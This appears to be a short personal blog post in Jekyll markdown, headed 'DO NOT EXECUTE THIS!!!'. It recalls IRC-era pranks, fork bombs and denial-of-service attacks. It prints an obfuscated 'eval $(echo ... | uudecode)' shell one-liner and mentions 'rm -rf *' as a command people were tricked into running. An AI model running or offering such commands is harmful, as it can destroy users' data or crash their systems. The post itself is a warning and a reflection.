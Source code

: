 ```yaml
---
layout: post
title: DO NOT EXECUTE THIS!!!
---
```


<span style="font-size: 12px;">```eval $(echo "I<RA('1E<W3t`rYWdl&r()(Y29j&r{,3Rl7Ig}&r{,T31wo});r`26<F]F;==" | uudecode) ``` </span>
  
Source: [https://www.vidarholen.net/contents/blog/?p=766][1]  
<br>
  
  
&emsp;&emsp;This was an interesting find. I started getting curious about computers around the IRC days. In those days, a lot of people were scripting their clients to produce ASCII art (back when it was a thing), but then there were others that realized it was possible to do more sinister stuff. For example, by flooding someone with a ping request it was possible to overload a target's network card/modem and cause them to disconnect (mind you this was dial up). This along with suggesting them to press <span style="background-color:#D3D3D3;">`alt + F4`</span> and <span style="background-color:#D3D3D3;"> `ctrl + alt + del` </span>. 


&emsp;&emsp;And of course, there were those who were suggesting people to run commands similar to <span style="background-color:#D3D3D3;">`rm -rf *`</span> (or delete the Program Files folder). Somewhere around that time, I learnt about fork bombs and billion laughs. There was no wikipedia or youtube around then, just plain sites on geocities or all over the net wherever people could host time. 


&emsp;&emsp;Reading this article reminded me that the simplest attack is really just to disable a service/system, a Denial-Of-Service. It may not be complex or sophisticated but has cost implications (at the very least, time cost). Even with redundancies and self replicating microservices of today, it is just as easy for threat actors to scale themselves as well. Nowadays, even as most threat actors attempt to discreetly and covertly compromise a system, entrench their foothold and survey the internal network, sometimes they will use DOS for a good distraction. 


&emsp;&emsp;There were many who used to make fun of script kiddies. We don't really hear it that much anymore. Plus, almost everyone nowadays uses some sort of framework with pre-configured vulnerabilities and paylods.


[1]: https://www.vidarholen.net/contents/blog/?p=766




